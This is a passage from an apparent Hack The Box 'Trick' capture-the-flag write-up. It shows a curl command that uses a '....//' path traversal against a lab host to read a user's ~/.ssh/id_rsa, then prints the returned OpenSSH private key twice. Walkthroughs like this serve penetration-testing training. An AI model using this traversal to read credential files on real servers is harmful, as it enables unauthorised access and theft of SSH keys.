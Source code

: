 ```

I've checked if a ```private key``` existed in ```michaels``` ```homedir``` and grabbed ```id_rsa``` to get shell:
```
┌──(kali㉿kali)-[~/htb/trick]
└─$ curl http://preprod-marketing.trick.htb/index.php?page=....//....//....//home/michael/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----

```
Cleaned up key:
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
